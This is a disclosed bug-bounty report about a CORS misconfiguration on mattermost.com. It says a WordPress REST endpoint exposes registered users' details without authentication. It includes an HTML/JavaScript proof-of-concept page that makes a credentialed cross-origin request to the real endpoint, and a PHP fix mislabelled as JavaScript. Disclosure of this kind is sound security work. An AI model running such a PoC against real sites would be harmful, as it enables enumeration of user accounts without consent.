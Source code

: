 # [mattermost.com] CORS Misconfiguration leakage of admin users

## Report Details
- **Report ID**: 1113759
- **URL**: https://hackerone.com/reports/1113759
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2021-03-01T12:21:27.417Z
- **Disclosed**: 2021-03-19T08:28:33.655Z

## Reporter
- **Username**: deb0con
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mattermost

## Vulnerability Information
**Sumarry :**
CORS policies on pages containing sensitive information should be reviewed to determine whether it is appropriate for the application to trust both the intentions and security posture of any domains granted access.
It's possible to get information about the users registered (such as: id, name, login name, etc.) without authentication in Wordpress via API on
The vulnerability is registered as #772744 #356047 #591302 #138244 #329791

**Platform(s) Affected: [website]**
https://mattermost.com/wp-json/wp/v2/users/

**Proof On Concept:**
```javascript
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://mattermost.com/wp-json/wp/v2/users/", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
```
  * Save as ``.html`` and Open and click Exploit on browsers

**Fix**
Use this code will hide the users list and give 404 as the result, while rest of the api calls keep running as they were.
```javascript
add_filter( 'rest_endpoints', function( $endpoints ){
    if ( isset( $endpoints['/wp/v2/users'] ) ) {
        unset( $endpoints['/wp/v2/users'] );
    }
    if ( isset( $endpoints['/wp/v2/users/(?P<id>[\d]+)'] ) ) {
        unset( $endpoints['/wp/v2/users/(?P<id>[\d]+)'] );
    }
    return $endpoints;
});
```

## Impact

Information disclosure in **``/wp-json/wp/v2/users/``**

## Attachments
No attachments
